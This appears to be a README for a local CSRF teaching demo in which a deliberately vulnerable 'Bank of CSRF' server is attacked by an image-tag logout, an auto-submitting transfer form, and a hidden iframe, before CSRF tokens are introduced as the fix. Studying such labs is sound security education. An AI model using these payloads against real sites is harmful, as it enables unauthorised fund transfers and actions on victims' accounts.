 #Setting up
To run the demo you need to have Python 2 and Twisted installed.

$ apt-get install python
$ pip install twisted

Run bank server on port 8080
$ python csrf_bank_server.py 8080 
# TODO: change the following variables
USE_CSRF_TOKENS = True
COOKIE_TOKENS = True

Run another webserver on a different port to server Dr. Evil's website
$ python -m SimpleHTTPServer 8000

#Using Bank of CSRF

Go to http://localhost:8080.
There are two accounts on the server:
1) username=victim password=unhashed
2) username="dr evil" password="mini me"

You can look at the source code to see how the site works.

The page http://localhost:8080/ checks if a valid session cookie is present.
If so it presents a form for transfering funds from one account to another.
If no valid session cookie is present, the page shows a login form.

http://localhost:8080/login accepts a post request with a username and
password. If the credential are correct is sets a cookie called session_cookie.
After login, the user is redirected to the home page.

http://localhost:8080/transfer accepts post requests and transfers funds
from one account to another provided the session cookie as form parameters
are valid.

To send arbitrary post requests to the server use:
$ curl -L -d "post request body" http://localhost:8080/login

Note: the -L flag tells curl to follow redirects.

example: 
$ curl -L -v -d "username=dr evil&password=mini me" http://localhost:8080/login

Note: the -v flag causes curl to display reply headers which include any
	Set-Cookie headers.

To specify arbitrary cookies use:
$ curl --cookie "key=value" http://localhost:8080/

#GET Based CSRF Vulnerabilities
Websites cause the user's browser to issue GET requests of other sites all the
time. For example A.com might have the HTML:

<img src="http://B.com/image.png" />

This causes a GET request for http://B.com/image.png to be sent. Any cookies
the user has for the site will be sent along too.

The src field for an <img> tag does not need to point to an actual image. The
browser has no way of telling if the src actually is an image until after the
request has been made.

Consider this, what if Mini Me put the following HTML on his website.

<img src="http://localhost:8080/logout" />

On receiving the request from the user, the server checks for a session cookie
and if one is present, removes it from its database.

This means Mini Me can logout anyone who visits his site.

To see how this works, log into Bank of CRSF in one tab. Then go to
http://localhost:8000/getting_evil.html. Now if you refresh the other tab,
you should be logged out.

#POST Based CSRF Vulnerabilities
The real goldmine is POST forms like the one used to transfer money between
accounts. The site generates forms of the following form:

<form action="/transfer" method="post">
	victim's balance: 1000</br>
	Destination account: <input type="text" name="dest" /></br>
	Transfer amount: <input type="number" name="amount" min="0" max="1000" /></br>
	<input type="submit" value="Transfer" />
</form>

Anyone can make requests like this:
$ curl -L -d "dest=dr evil&amout=666" http://localhost:8080/transfer

The only reason the requests do no cause a transfer, is that you need to send a
valid session cookie along with the request. As we just saw, tricking a user's
browser into making GET requests with valid cookies is easy. Making POST requests
is a little bit harder, but not by much.

Dr Evil just has to add the following HTML:

	<form action="http://localhost:8080/transfer" method="post" id="form">
		Destination account: <input type="text" name="dest" value="dr evil"/>
		Transfer amount: <input type="number" name="amount" value="666" />
		<input type="submit" value="Transfer" />
	</form>

The only step left is getting someone to click transfer, but nobody would fall
for that. Luckily we can submit the form automatically by adding the following
script:

	<script>
		window.onload = function() {
			document.getElementById('form').submit();
			//check your balance now
		}
	</script>

To see this in action, log back in as victim. Take note of the current account
balances. Now go to http://localhost:8000/hidden_evil_iframe.html. If you
pay close attention, you should notice the page briefly flash by before you
are redirected to http://localhost:8080/transfer. Now going back to the home
page, you should see the balance has changed, so the attack worked.

The only problem is the attack is not subtle as is easy to notice.

Fixing this is simple. Create another webpage and add this HTML:

	<iframe src="hidden_evil_iframe.html" style="visibility: hidden"></iframe>

Now when the user visits this new page, the evil page still loads and runs,
but the <iframe> it loads in is hidden, so the user won't notice.

# CSRF Tokens
To protect against CSRF attacks, requests should require information the
attacker does not know and the user does not automatically provide. One
way is for the server to generate a random "csrf token."
The site then adds the additional field to forms it gives to the user.

	<input type="hidden" name="csrf_token" value="dgL2+Ur3367X+HZni8Ybyg==" />
	<!-- value is whatever token the server just generated -->

Because the form with the random token is returned to the user, the attacker
does not know the token value. When a form is submitted the server compares
the token with what it generated.
The server can either save copies or give then to users to save as cookies.
